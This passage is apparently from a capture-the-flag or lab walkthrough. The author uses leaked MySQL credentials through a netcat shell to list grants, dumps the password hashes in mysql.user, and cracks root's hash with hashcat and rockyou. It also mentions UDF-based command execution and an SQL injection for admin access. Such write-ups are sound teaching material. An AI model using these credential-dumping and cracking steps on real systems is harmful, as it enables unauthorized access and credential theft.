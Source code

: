 So mysql access with `webapp:webapp` at 192.168.2.200. Lets test this and check out the server. I executed commands using mysql -e on the netcat shell that just spawned:

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'show grants;'
Grants for webapp@192.168.2.100
GRANT SELECT, INSERT ON *.* TO 'webapp'@'192.168.2.100' IDENTIFIED BY PASSWORD '*BF7C27E734F86F28A9386E9759D238AFB863BDE3'
GRANT ALL PRIVILEGES ON `webapp`.* TO 'webapp'@'192.168.2.100'
```

So I can select anywhere. Nice :)

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use webapp; show tables;'
Tables_in_webapp
todo
users
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use webapp; select * from todo;'
task
stop running mysql as root
```

A table called `todo` exists, with a string `stop running mysql as root`. That was the first hint and immediately had me thinking about [MySQL UDF](http://www.mysqludf.org/)'s, one which could allow us to run system commands. However, in order to get a UDF loaded, I will need a dba level account, one which I don't have yet. From the previous grants output, I can see that I am allowed to query any table on the database server, so lets get some administrative hashes:

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use mysql; select DISTINCT User,Password from user;'
User    Password
root    *ECB01D78C2FBEE997EDA584C647183FD99C115FD
debian-sys-maint    *E0E0871376896664A590151D348CCE9AA800435B
webapp  *BF7C27E734F86F28A9386E9759D238AFB863BDE3
```

As a side note, further enumeration of the PHP sources and MySQL table `users` showed that if we injected SQL on the registration page to add a extra `1`, we would be considered an admin, and would have also seen the admin page that is vulnerable to the already found command injection.

### cracking root's MySQL password
Now that I had the password hash for the root user, I proceeded to try and crack it. For this I used `hashcat` with the ever famous `rockyou` wordlist:

```bash
# first, echo the hash to a file
root@kali:~# echo "ECB01D78C2FBEE997EDA584C647183FD99C115FD" > db.root

# next, we tell hash cat the type of hash we have and wait a few seconds :)
root@kali:~# hashcat -m 300 db.root /usr/share/wordlists/rockyou.txt
This copy of hashcat will expire on 01.01.2015. Please upgrade to continue using hashcat.

Initializing hashcat v0.47 by atom with 8 threads and 32mb segment-size...

Added hashes from file db.root: 1 (1 salts)
Activating quick-digest mode for single-hash

NOTE: press enter for status-screen

ecb01d78c2fbee997eda584c647183fd99c115fd:coolwater

All hashes have been recovered

Input.Mode: Dict (/usr/share/wordlists/rockyou.txt)
Index.....: 1/5 (segment), 3627099 (words), 33550339 (bytes)
Recovered.: 1/1 hashes, 1/1 salts
Speed/sec.: - plains, 3.27M words
```